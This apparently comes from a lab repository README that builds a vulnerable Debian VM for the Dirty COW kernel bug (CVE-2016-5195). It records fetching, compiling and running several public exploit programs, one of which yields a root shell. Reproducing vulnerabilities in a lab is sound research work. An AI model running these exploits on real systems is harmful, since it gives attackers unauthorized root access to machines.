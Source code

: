 # CVE-2016-5195_DirtyCow 

## Vulnerability information

 * Description

	Race condition in mm/gup.c in the Linux kernel 2.x through 4.x before 4.8.3 allows local users to gain privileges by leveraging incorrect handling of a copy-on-write (COW) feature to write to a read-only memory mapping, as exploited in the wild in October 2016, aka "Dirty COW."

## vagrant up

```
$ vagrant up
Bringing machine 'vve.test' up with 'virtualbox' provider...
==> vve.test: Importing base box 'debian/wheezy64'...
==> vve.test: Matching MAC address for NAT networking...
==> vve.test: Checking if box 'debian/wheezy64' is up to date...
==> vve.test: Setting the name of the VM: CVE-2016-5195_DirtyCow_vvetest_1518397500434_97609
==> vve.test: Fixed port collision for 22 => 2222. Now on port 2200.
==> vve.test: Clearing any previously set network interfaces...
(snip)
    vve.test: Guest Additions Version: 4.3.18
    vve.test: VirtualBox Version: 5.2
==> vve.test: Configuring and enabling network interfaces...
```

## vagrant ssh

```
$ vagrant ssh
Linux debian-780-wheezy 3.2.0-4-amd64 #1 SMP Debian 3.2.65-1 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Apr 24 08:15:24 2015 from 10.0.2.2
-bash: warning: setlocale: LC_ALL: cannot change locale (ja_JP.UTF-8)
-bash: warning: setlocale: LC_ALL: cannot change locale (ja_JP.UTF-8)
-bash: warning: setlocale: LC_ALL: cannot change locale (ja_JP.UTF-8)
```

## VVE infomation

```
vagrant@debian-780-wheezy:~$ lsb_release -a
No LSB modules are available.
Distributor ID: Debian
Description:    Debian GNU/Linux 7.8 (wheezy)
Release:        7.8
Codename:       wheezy
vagrant@debian-780-wheezy:~$ uname -a
Linux debian-780-wheezy 3.2.0-4-amd64 #1 SMP Debian 3.2.65-1 x86_64 GNU/Linux
```

# POC

## dirtyc0w 

exploited

```
$ wget https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/dirtyc0w.c
$ sudo -s
# echo this is not a test > foo
# chmod 0404 foo
$ ls -lah foo
-r-----r-- 1 root root 19 Oct 20 15:23 foo
$ cat foo
this is not a test
$ gcc -pthread dirtyc0w.c -o dirtyc0w
$ ./dirtyc0w foo m00000000000000000
mmap 56123000
madvise 0
procselfmem 1800000000
$ cat foo
m00000000000000000
```

## cowroot.c

compile error

```
$ wget https://gist.githubusercontent.com/rverton/e9d4ff65d703a9084e85fa9df083c679/raw/9b1b5053e72a58b40b28d6799cf7979c53480715/cowroot.c
$ gcc cowroot.c -o cowroot -pthread
cowroot.c: In function 'procselfmemThread':
cowroot.c:98:9: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast [enabled by default]
In file included from cowroot.c:27:0:
/usr/include/unistd.h:331:16: note: expected '__off_t' but argument is of type 'void *'
```

## pokemon.c

```
$ wget https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/pokemon.c
$ echo pikachu|sudo tee pokeball;ls -l pokeball;gcc -pthread pokemon.c -o d;./d pokeball miltank;cat pokeball
pikachu
-rw-r--r-- 1 root root 8 Feb 12 02:09 pokeball
pokeball
   (___)
   (o o)_____/
    @@ `     \
     \ ____, /miltank
     //    //
    ^^    ^^
mmap 7f3aec09e000
madvise 0
ptrace 0
```

## c0w.c

got root

```
vagrant@debian-780-wheezy:~/c0w$ wget https://gist.githubusercontent.com/KrE80r/42f8629577db95782d5e4f609f437a54/raw/71c902f55c09aa8ced351690e1e627363c231b45/c0w.c
vagrant@debian-780-wheezy:~/c0w$ gcc -pthread c0w.c  -o c0w
vagrant@debian-780-wheezy:~/c0w$ ./c0w

   (___)
   (o o)_____/
    @@ `     \
     \ ____, //usr/bin/passwd
     //    //
    ^^    ^^
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap 2df04000

madvise 0

ptrace 0

vagrant@debian-780-wheezy:~/c0w$ /usr/bin/passwd
root@debian-780-wheezy:/home/vagrant/c0w# whoami
root
```

## Vagrant package

```
$ vagrant package
==> vve.test: Attempting graceful shutdown of VM...
==> vve.test: Clearing any previously set forwarded ports...
==> vve.test: Exporting VM...
==> vve.test: Compressing package to: /Users/0shin/VVE/CVE-2016-5195_DirtyCow/package.box
```

## Retest

```
vagrant box add debian package.box
vagrant init customized_debian
vagrant up
```

# Reference 

  * https://dirtycow.ninja/
  * https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
  * https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
  * https://security-tracker.debian.org/tracker/CVE-2016-5195


